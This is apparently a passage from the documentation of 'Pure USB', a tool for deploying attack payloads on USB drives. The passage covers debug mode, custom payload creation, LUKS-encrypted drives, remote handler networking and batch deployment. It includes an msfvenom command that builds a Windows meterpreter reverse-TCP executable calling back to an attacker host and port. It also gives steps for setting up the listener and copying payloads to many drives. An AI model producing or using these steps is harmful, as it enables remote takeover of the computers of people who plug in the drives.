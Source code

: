 ### Debug Mode

Run with debug output:
```bash
python3 -u pure_usb.py 2>&1 | tee debug.log
```

---

## Advanced Usage

### Custom Payload Generation

1. Use msfvenom to create custom payloads
2. Place in payload directory
3. Refresh payload list in Pure USB

**Example**:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.100 LPORT=4444 \
  -f exe -o custom_payload.exe
```

### USB Encryption

1. Format USB with LUKS encryption
2. Mount encrypted partition
3. Deploy payloads to encrypted USB

**Commands**:
```bash
sudo cryptsetup luksFormat /dev/sdX1
sudo cryptsetup luksOpen /dev/sdX1 encrypted_usb
sudo mount /dev/mapper/encrypted_usb /mnt/encrypted
```

### Network Configuration

For remote handler setup:
1. Configure firewall rules
2. Set up port forwarding
3. Use VPN or tunnel connections

### Batch Operations

Deploy to multiple USB drives:
1. Insert multiple USB devices
2. Run deployment script for each device
3. Monitor progress in separate terminals

---

## Best Practices

